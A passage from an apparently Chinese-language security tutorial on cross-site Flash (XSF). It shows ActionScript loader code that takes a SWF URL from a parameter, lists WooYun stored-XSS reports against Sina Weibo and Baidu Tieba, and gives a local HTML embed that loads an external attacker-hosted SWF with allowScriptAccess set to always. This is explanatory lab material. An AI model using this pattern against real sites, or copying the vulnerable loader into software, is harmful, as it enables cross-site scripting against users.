 运行结果：

![enter image description here](http://drops.javaweb.org/uploads/images/19d7c58dce945682835ce95a03d70e3f88fcc86c.jpg)

**跨站Flash**

跨站Flash即XSF，通过AS加载第三方的Flash文件，如果这个第三方Flash可以被控制，就可以实现XSF。 在AS2中使用loadMove函数等加载第三方Flash。

```
_root.loadMovie(swf)；

```

在AS3中使用Loader类进行外部数据处理：

```
var param:Object = root.loaderInfo.parameters;
var swf:String = param[“swf”];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);

```

wooyun上实例：

[WooYun: sina微薄存储型跨站](http://www.wooyun.org/bugs/wooyun-2011-01768)

[WooYun: sina微博存储型跨站Ⅱ](http://www.wooyun.org/bugs/wooyun-2011-01904)

[WooYun: sina微博存储型跨站Ⅲ](http://www.wooyun.org/bugs/wooyun-2011-03574)

[WooYun: 百度贴吧存储型XSS - Flash又中枪了～～](http://www.wooyun.org/bugs/wooyun-2012-08354)

本地搭建环境，新建Flash：

```
var param:Object = root.loaderInfo.parameters;
var swf:String = param["swf"];
var myLoader:Loader = new Loader();
var url:URLRequest = new URLRequest(swf);
myLoader.load(url);
addChild(myLoader);

```

新建本地html文件：

```
<object id="lso" type="application/x-shockwave-Flash" data="http://192.168.4.70/xsf.swf">
<param name="movie" value = "http://192.168.4.70/xsf.swf" />
<param name="allowScriptAccess" value="always" />
<param name="allowNetworking" value="all" />
<param name="Flashvars" value="swf=http://xxxxx.sinaapp.com/trace.swf"
</object>

```
